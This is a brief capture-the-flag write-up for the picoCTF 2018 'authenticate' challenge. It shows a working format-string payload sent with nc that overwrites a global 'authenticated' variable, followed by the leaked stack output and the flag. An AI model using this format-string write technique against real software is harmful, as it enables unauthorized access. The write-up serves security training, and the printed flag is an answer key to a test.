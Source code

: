 # authenticate

`authenticated` global variable is at address `0x0804A04C`. We can overwrite it using format string attack.

```
$ echo -e "\x4C\xA0\x04\x08%p%p%p%p%p%p%p%p%p%p%n" | nc 2018shell.picoctf.com 52918
Would you like to read the flag? (yes/no)
Received Unknown Input:

L0x80489a60xf76d05a00x804875a0xf77080000xf77089180xff8d2d700xff8d2e64(nil)0xff8d2e040x429
Access Granted.
picoCTF{y0u_4r3_n0w_aUtH3nt1c4t3d_d29a706d}
```

Flag: `picoCTF{y0u_4r3_n0w_aUtH3nt1c4t3d_d29a706d}`